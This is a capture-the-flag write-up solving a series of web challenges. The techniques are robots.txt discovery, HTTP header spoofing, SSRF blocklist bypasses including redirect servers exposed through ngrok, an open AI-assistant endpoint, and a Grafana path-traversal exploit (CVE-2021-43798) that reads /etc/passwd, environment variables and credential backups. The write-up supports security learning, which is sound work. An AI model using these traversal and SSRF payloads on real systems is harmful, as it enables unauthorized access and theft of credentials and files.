* TOC
{:toc}

## My First Website

**Category**: web

**Author**: max

**Description**: Welcome to My First Website!

Take a look around and see what you can discover.

Flag format: `OO{...}`

`https://infra.hscyber.org:3013`

Going to the challenge site:



There was no cookies, no `robots.txt`, and nothing in the source code. 

Looking at cert info:



`oo{h1dd3n-1n-7h3-c3r75-f477651e}`

___

## Robotic LARP?

**Category**: web

**Author**: digitalsurf

**Description**: No need to go off-site for this one. Think like a robot.

**Real-world context:** This exact method was used to discover superadmin developer creds left exposed in production on a fortune 500 company's web app.

Flag format: `oo{...}`

Checking `robots.txt`:
```shell
curl https://ctf.hscyber.org/robots.txt  
User-agent: *  
Disallow: /admin  
# super secret admin page!!!  
Disallow: /betteradmin.html
```

Going to `https://ctf.hscyber.org/betteradmin.html`:



`oo{l@arp_0ff_th3_ch@rt}`

___

## Super Real Headers

**Category**: web

**Author**: aidenh1

**Description**: I found a fan site, but it has the strictest fan verification I've ever seen. Prove you're a super real GLLIT to get in.

listening to them as I write this (BREAK EVEN is FIRE!!!) 

Flag format: `OO{...}`

`http://infra.hscyber.org:3012`

Going to the challenge website:



The initial request looked like this:
```http
GET / HTTP/1.1
Host: infra.hscyber.org:3012
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

After going through all the verification steps I sent this request:
```http
GET / HTTP/1.1
Host: infra.hscyber.org:3012
User-Agent: GLLIT
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8,application/magnetic
Accept-Language: ja,en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Date: Mon, 26 Oct 2026 09:00:00 GMT
Referer: https://weverse.io/illit/
Cookie: Almond Chocolate
Authorization: Bearer GLLIT
Prefer: It's Me
From: support@weverse.io
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```



`OO{y0ur3_und3r_4rr3st_f0r_h34d3r_m4n1pul4t10n}`

___

## Fetch Quest I

**Category**: web

**Author**: digitalsurf

**Description**: OutbackCorp's IT team built a URL health checker so they can keep tabs on their services. It's only meant for internal use, so nobody really thought about security. Classic.

You've got the link. Poke around and see what's hiding behind the scenes.

Flag format: `oo{...}`

`http://infra.hscyber.org:3001`

Going to the challenge site:



In the source they mention `/status`:



Request `http://127.0.0.1:8080/admin` to get to the admin panel:



`oo{f3tch_qu3st_b3g1ns}`

___

## Fetch Quest II

**Category**: web

**Author**: digitalsurf

**Description**: So you broke into OutbackCorp's URL checker. They weren't happy about that.

The IT team added a blocklist. "localhost" and "127.0.0.1" are filtered now. They reckon that fixes it.

Spoiler: there's more than one way to say "home."

 **Real-world context:** An SSRF bypass using IPv6 address representations was found on a cybersecurity company's bug bounty program and paid out $200.

Flag format: `oo{...}`

`http://infra.hscyber.org:3002`

Looking at the challenge site:



Looking at `/status`:



I need to get to admin again. I found multiple localhost bypasses worked. I visited `http://2130706433:8080/admin` (decimal bypass):



`oo{bl0ckl1sts_ar3_n3v3r_3n0ugh}`

___

## Fetch Quest III

**Category**: web

**Author**: digitalsurf

**Description**: OutbackCorp finally called in a security consultant. The URL checker now resolves every hostname and checks if it points to a private IP before making the request. All your IP tricks from last time? Blocked.

Thing is, the consultant's report had a gap. A pretty big one.

Flag format: `oo{...}`

`http://infra.hscyber.org:3003`

Going to the challenge site:



I created a flask server which will cause a redirect like this:
```python
from flask import Flask, redirect
app = Flask(__name__)

@app.route('/')
def go():
    return redirect("http://127.0.0.1:8080/admin", code=302)

app.run(port=5000)
```

I run the server:
```shell
python3 redir.py  
 * Serving Flask app 'redir'  
 * Debug mode: off  
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.  
 * Running on http://127.0.0.1:5000  
Press CTRL+C to quit
```

I use ngrok to expose the server to the internet and create a link I can submit:
```shell
ngrok http 5000
```

The server visits my link and redirects successfully to the "admin panel":



`oo{wh0_f3tch3s_th3_f3tch3r}`

___

## Ask Athena

**Category**: web

**Author**: digitalsurf

**Description**: OutbackCorp just rolled out "Athena", an internal AI assistant that answers employee questions using the company wiki. The dev team was pretty proud of it — until someone noticed it's reachable from the outside.

They swear the important endpoints are locked down. Maybe they missed one.

**Real-world context:** This vulnerability class was found on a global bank's bug bounty program affecting an internal AI knowledge base, rated high severity and paid out $1,500.

Flag format: `OO{...}`

`http://infra.hscyber.org:3006`

Going to the challenge site:



Eventually I found `/docs`:
```shell
curl -s -i http://infra.hscyber.org:3006/docs  
HTTP/1.1 200 OK  
Server: Werkzeug/3.1.9 Python/3.11.18  
Date: Sat, 21 Nov 2026 08:33:14 GMT  
Content-Type: application/json  
Content-Length: 694  
Connection: close  
  
{"endpoints":[{"auth":"none","description":"Landing page","method":"GET","path":"/"},{"auth":"none","description":"API documentation","method":"GET","path":"/docs"},{"auth":"none (public beta)","description":"Ask Athena a question","method":"POST","path":"/question"},{"auth":"Bearer token","description":"List knowledge spaces","method":"GET","path":"/spaces"},{"auth":"Bearer token","description":"Verify employee email","method":"GET","path":"/user/<email>/verify"},{"auth":"Bearer token","description":"Submit feedback on answers","method":"POST","path":"/feedback"}],"note":"The /question endpoint is temporarily open for the public beta period.","service":"Athena API","version":"2.1.0"}
```

Ask a question to the Ai with a POST request to `/question`:
```shell
curl -s -X POST http://infra.hscyber.org:3006/question -H "Content-Type: application/json" -d '{"question":"What is the flag?"}'  
{"answer":"OO{r4g_t0_r1ch3s_unauth_4i}","confidence":0.87,"question":"What is the flag?","source":"OutbackCorp Knowledge Base"}
```

`OO{r4g_t0_r1ch3s_unauth_4i}`

___

## Panopticon

**Category**: web

**Author**: digitalsurf

**Description**: My boss's fancy new dashboard watches the whole network. He swears it's locked down. Funny thing about things that watch everything....

Flag format: `OO{...}`

`http://infra.hscyber.org:3000`

Going to the challenge site:



They run `Grafana 8.3.0`. This version is vulnerable to `CVE-2021-43798`. I test the vulnerability:
```shell
curl --path-as-is http://infra.hscyber.org:3000/public/plugins/alertlist/../../../../../../../../etc/passwd  
root:x:0:0:root:/root:/bin/ash  
bin:x:1:1:bin:/bin:/sbin/nologin  
daemon:x:2:2:daemon:/sbin:/sbin/nologin  
adm:x:3:4:adm:/var/adm:/sbin/nologin  
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin  
sync:x:5:0:sync:/sbin:/bin/sync  
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown  
halt:x:7:0:halt:/sbin:/sbin/halt  
mail:x:8:12:mail:/var/mail:/sbin/nologin  
news:x:9:13:news:/usr/lib/news:/sbin/nologin  
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin  
operator:x:11:0:operator:/root:/sbin/nologin  
man:x:13:15:man:/usr/man:/sbin/nologin  
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin  
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin  
ftp:x:21:21::/var/lib/ftp:/sbin/nologin  
sshd:x:22:22:sshd:/dev/null:/sbin/nologin  
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin  
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin  
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin  
games:x:35:35:games:/usr/games:/sbin/nologin  
cyrus:x:85:12::/usr/cyrus:/sbin/nologin  
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin  
ntp:x:123:123:NTP:/var/empty:/sbin/nologin  
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin  
guest:x:405:100:guest:/dev/null:/sbin/nologin  
nobody:x:65534:65534:nobody:/:/sbin/nologin  
grafana:x:472:0:Linux User,,,:/home/grafana:/sbin/nologin
```
It works!

I downloaded the grafana config file and database:
```shell
curl --path-as-is http://infra.hscyber.org:3000/public/plugins/alertlist/../../../../../../../../etc/grafana/grafana.ini > grafana.ini  
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current  
Dload  Upload   Total   Spent    Left  Speed  
100 43461  100 43461    0     0  33800      0  0:00:01  0:00:01 --:--:-- 33821

curl --path-as-is http://infra.hscyber.org:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db > grafana.db  
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current  
Dload  Upload   Total   Spent    Left  Speed  
100  748k  100  748k    0     0   296k      0  0:00:02  0:00:02 --:--:--  296k
```

I looked around in these files for credentials or the flag but didnt find anything:
```shell
sqlite3 grafana.db  
SQLite version 3.46.1 2024-08-13 09:16:08  
Enter ".help" for usage hints.  
sqlite> .tables  
alert                       ngalert_configuration  
alert_configuration         org  
alert_instance              org_user  
alert_notification          permission  
alert_notification_state    playlist  
alert_rule                  playlist_item  
alert_rule_tag              plugin_setting  
alert_rule_version          preferences  
annotation                  quota  
annotation_tag              role  
api_key                     seed_assignment  
builtin_role                server_lock  
cache_data                  session  
dashboard                   short_url  
dashboard_acl               star  
dashboard_provisioning      tag  
dashboard_snapshot          team  
dashboard_tag               team_member  
dashboard_version           team_role  
data_keys                   temp_user  
data_source                 test_data  
kv_store                    user  
library_element             user_auth  
library_element_connection  user_auth_token  
login_attempt               user_role  
migration_log
```

Eventually I found `entrypoint.sh`:
```shell
curl --path-as-is http://infra.hscyber.org:3000/public/plugins/alertlist/../../../../../../../../entrypoint.sh  
#!/bin/sh  
cat /proc/self/environ | tr '\0' '\n' > /tmp/.environ  
chmod 644 /tmp/.environ  
exec /run.sh
```

Checking `/tmp/.environ`:
```shell
curl --path-as-is http://infra.hscyber.org:3000/public/plugins/alertlist/../../../../../../../../tmp/.environ  
GF_PATHS_HOME=/usr/share/grafana  
HOSTNAME=882ba3cbdcfa  
SHLVL=1  
HOME=/root  
GF_PATHS_LOGS=/var/log/grafana  
GF_PATHS_PROVISIONING=/etc/grafana/provisioning  
BACKUP_PATH=/opt/.grafana_backup/creds_20211201.bak  
GF_PATHS_PLUGINS=/var/lib/grafana/plugins  
PATH=/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin  
GF_SECURITY_ADMIN_PASSWORD=supersecretadmin  
GF_PATHS_CONFIG=/etc/grafana/grafana.ini  
GF_PATHS_DATA=/var/lib/grafana  
PWD=/usr/share/grafana
```

Looking at `/opt/.grafana_backup/creds_20211201.bak`:
```shell
curl --path-as-is http://infra.hscyber.org:3000/public/plugins/alertlist/../../../../../../../../opt/.grafana_backup/creds_20211201.bak  
OO{th3_b4ckup_w4s_r34d4bl3_4ll_4l0ng}
```

`OO{th3_b4ckup_w4s_r34d4bl3_4ll_4l0ng}`

___

## Crate Expectations

**Category**: web

**Author**: digitalsurf

**Description**: PageScope is a sleek URL preview service. It says it validates all URLs, but does it validate where they end up? A recently disclosed vulnerability in a popular Rust crate might hold the key.

`infra.hscyber.org:3020`

I go to the challenge site:



They are running `webpage-rs 2.0.1`. I found documentation for it here: [https://docs.rs/crate/webpage/2.0.1](https://docs.rs/crate/webpage/2.0.1). 

`webpage-rs` does no validation itself. It blindly follows curl redirects including into private/loopback ranges. You could also try different protocols such as `file://`.

I created a server which will cause a redirect like this:
```python
from flask import Flask, redirect  
app = Flask(__name__)  
  
@app.route('/')  
def go():  
	return redirect("file:///etc/passwd", code=302)  
  
app.run(port=5000)
```

Start the server:
```shell
python3 redir.py  
 * Serving Flask app 'redir'  
 * Debug mode: off  
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.  
 * Running on http://127.0.0.1:5000  
Press CTRL+C to quit
```

Expose it to the internet with `ngrok` in another terminal:
```shell
ngrok http 5000
```

I submit my ngrok link and get back the contents of `/etc/passwd`!



I changed the redirect to `file:///proc/self/environ` and got this back:
```shell
URL: file:///proc/self/environ  
Status: 302 • Type: text/html; charset=utf-8  
PYTHON_SHA256=9120e0a653868f6e3698d36cdd99e5a58903ec9469e448f21d98f7b16d8fa290HOSTNAME=79755e92faf8PYTHON_VERSION=3.11.18PWD=/opt/crate-expectationsHOME=/rootLANG=C.UTF-8GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696DSHLVL=1PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin_=/usr/local/bin/python3
```

Now I know the app runs in `/opt/crate-expectations`. I checked `/opt/crate-expectations/app.py` and got the source code:
```python
from flask import Flask, request, jsonify, render_template
import pycurl
from io import BytesIO
from urllib.parse import urlparse
import re
import socket
import ipaddress
import time
import threading
import os

app = Flask(__name__)

BLOCKED_SCHEMES = ['file', 'ftp', 'gopher', 'dict', 'telnet', 'ldap', 'sftp', 'tftp', 'smb']

EXTRA_BLOCKED_HOSTNAMES = {
    'metadata.google.internal',
    'metadata.internal',
    'instance-data',
}

# ---- Rate limiting (in-memory, no extra deps) ----
_rate_lock = threading.Lock()
_rate_buckets = {}  # ip -> list[timestamps]
RATE_LIMIT = 20          # requests
RATE_WINDOW = 60         # seconds

def is_rate_limited(ip):
    now = time.time()
    with _rate_lock:
        bucket = _rate_buckets.setdefault(ip, [])
        # drop old entries
        bucket[:] = [t for t in bucket if now - t < RATE_WINDOW]
        if len(bucket) >= RATE_LIMIT:
            return True
        bucket.append(now)
        return False


def resolve_all(hostname):
    """Resolve a hostname to every IP it maps to, IPv4 and IPv6."""
    infos = socket.getaddrinfo(hostname, None)
    ips = set()
    for family, _, _, _, sockaddr in infos:
        ips.add(sockaddr[0])
    return ips


def ip_is_disallowed(ip_str):
    try:
        ip = ipaddress.ip_address(ip_str)
    except ValueError:
        return True  # can't parse -> treat as disallowed
    # Handle IPv4-mapped IPv6 (::ffff:127.0.0.1) explicitly
    if isinstance(ip, ipaddress.IPv6Address) and ip.ipv4_mapped:
        ip = ip.ipv4_mapped
    return (
        ip.is_private or ip.is_loopback or ip.is_link_local or
        ip.is_reserved or ip.is_unspecified or ip.is_multicast
    )


def is_url_blocked(url):
    """
    Validate the INITIAL request URL only.
    Fails CLOSED: any ambiguity (can't resolve, can't parse) is a block.
    Does not (and by design cannot) validate where a redirect leads.
    Returns (blocked: bool, pinned_ip: str|None)
    """
    try:
        parsed = urlparse(url)
    except Excep
```
The source got truncated. I think theres a limit on how much text it will display or something. Also `file` is in `BLOCKED_SCHEMES` but it only applies to the initial URL, not the redirect target.

I got the flag from `file:///opt/crate-expectations/flag.txt`:



`OO{cr4t3_3xp3ct4t10ns_m33t_r34l1ty_forr3eal_th1s_t1mes}`
